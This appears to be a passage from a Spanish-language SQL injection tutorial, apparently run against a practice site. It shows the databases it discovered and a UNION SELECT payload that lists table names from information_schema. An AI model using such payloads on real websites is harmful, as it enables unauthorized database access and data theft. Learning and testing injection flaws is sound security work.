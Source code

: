 ![v_database](/assets/img/screens/database_1.png)
Devuelve las bases de datos:

. information_schema (metadatos)

. acuart

<br>
Visualizando tablas:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11 FROM information_schema.tables WHERE table_schema="acuart";#</font></pre>

![v_tablas](/assets/img/screens/tablas_1.png)
